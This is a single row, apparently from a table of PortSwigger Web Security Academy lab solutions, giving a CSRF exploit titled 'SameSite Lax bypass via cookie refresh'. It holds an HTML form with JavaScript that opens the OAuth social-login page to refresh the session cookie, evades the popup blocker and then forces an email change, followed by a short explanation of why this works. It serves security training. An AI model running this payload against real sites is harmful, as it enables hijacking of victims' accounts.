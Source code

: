 |51    |SameSite Lax bypass via cookie refresh                                                                                   |<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">     <input type="hidden" name="email" value="pwned@portswigger.net"> </form> <p>Click anywhere on the page</p> <script>     window.onclick = () => {         window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');         setTimeout(changeEmail, 5000);     }      function changeEmail() {         document.forms[0].submit();     } </script>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |Uses OAuth flow: GET /oauth-callback?code=[...] does not specify any SameSite restrictions, so the cookie will set Lax as the default.  The application will start the Oauth login flow after 2 minutes of inactivity. Browsing to /social-login will start this OAuth flow.  The attack starts by forcing the victim’s browser to visit /social-login to get a valid cookie, then submits the email change request after a short pause.  To bypass the popup blocker, the exploit needs to open once the user has clicked.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |CSRF, Practitioner                          |